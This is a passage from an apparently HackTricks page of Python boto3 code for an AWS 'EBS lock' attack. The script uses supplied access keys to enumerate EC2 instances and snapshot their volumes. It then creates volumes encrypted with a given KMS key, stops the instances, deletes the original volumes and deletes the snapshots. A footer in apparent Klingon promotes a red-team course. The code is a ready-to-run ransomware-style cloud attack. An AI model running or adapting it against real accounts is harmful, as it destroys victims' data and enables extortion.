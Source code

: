 ```
print(f"Deleted snapshot: {snapshot_id}")
except ClientError as e:
print(f"Error deleting snapshot {snapshot_id}: {e}")

def replace_volumes(ec2_client, instance_volumes):
instance_ids = list(instance_volumes.keys())
stop_instances(ec2_client, instance_ids)

all_volumes = [vol for vols in instance_volumes.values() for vol in vols]
detach_and_delete_volumes(ec2_client, all_volumes)

def ebs_lock(access_key, secret_key, region, kms_key_arn):
ec2_client = boto3.client('ec2', aws_access_key_id=access_key, aws_secret_access_key=secret_key, region_name=region)

instance_volumes = enumerate_ec2_instances(ec2_client)
all_volumes = [vol for vols in instance_volumes.values() for vol in vols]
snapshot_ids = snapshot_volumes(ec2_client, all_volumes)
wait_for_snapshots(ec2_client, snapshot_ids)
create_encrypted_volumes(ec2_client, snapshot_ids, kms_key_arn)  # New encrypted volumes are created but not attached
replace_volumes(ec2_client, instance_volumes)  # Stops instances, detaches and deletes old volumes
delete_snapshots(ec2_client, snapshot_ids)  # Optionally delete snapshots if no longer needed

def parse_arguments():
parser = argparse.ArgumentParser(description='EBS Volume Encryption and Replacement Tool')
parser.add_argument('--access-key', required=True, help='AWS Access Key ID')
parser.add_argument('--secret-key', required=True, help='AWS Secret Access Key')
parser.add_argument('--region', required=True, help='AWS Region')
parser.add_argument('--kms-key-arn', required=True, help='KMS Key ARN for EBS volume encryption')
return parser.parse_args()

def main():
args = parse_arguments()
ec2_client = boto3.client('ec2', aws_access_key_id=args.access_key, aws_secret_access_key=args.secret_key, region_name=args.region)

instance_volumes = enumerate_ec2_instances(ec2_client)
all_volumes = [vol for vols in instance_volumes.values() for vol in vols]
snapshot_ids = snapshot_volumes(ec2_client, all_volumes)
wait_for_snapshots(ec2_client, snapshot_ids)
create_encrypted_volumes(ec2_client, snapshot_ids, args.kms_key_arn)
replace_volumes(ec2_client, instance_volumes)
delete_snapshots(ec2_client, snapshot_ids)

if __name__ == "__main__":
main()
```
<details><summary><strong>qaStaHvIS AWS hacking vItlh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
